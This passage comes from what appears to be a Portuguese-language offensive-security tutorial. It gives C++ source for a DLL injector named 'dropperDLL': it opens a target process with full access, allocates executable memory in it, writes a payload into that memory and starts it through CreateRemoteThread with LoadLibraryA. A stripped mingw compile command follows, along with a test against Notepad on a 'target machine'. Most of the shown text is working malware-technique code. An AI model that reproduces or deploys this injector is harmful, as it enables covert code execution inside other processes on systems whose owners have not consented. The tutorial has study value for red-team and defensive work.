 ```cpp
    HANDLE remoteT; // remote thread
    LPVOID remoteB; // remote buffer

    // handle para kernel32 para encontrar LoadLibraryA
    HMODULE hKernel32 = GetModuleHandle("Kernel32");
    VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

    pid = findPID(argv[1]);

    // cria o handle para o processo
    procH = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(pid));

    // aloca o buffer de memoria no processo remoto
    remoteB = VirtualAllocEx(procH, NULL, Dll_len, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

    // copia o payload entre os processos
    WriteProcessMemory(procH, remoteB, Dll, Dll_len, NULL);

    // Iniciamos uma thread com o payload copiado
    remoteT = CreateRemoteThread(procH, NULL, 0, (LPTHREAD_START_ROUTINE)lb, remoteB, 0, NULL);

    CloseHandle(procH);
    return 0;
}


```

Compilamos o programa:

```bash
$ x86_64-w64-mingw32-gcc -O2 dropperDLL.cpp -o dropperDLL.exe -mconsole -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

Para testar, iniciamos uma instância do Notepad.exe na máquina alvo e invocamos nosso programa.

![](/img/posts/Pasted%20image%2020240807215827.png)
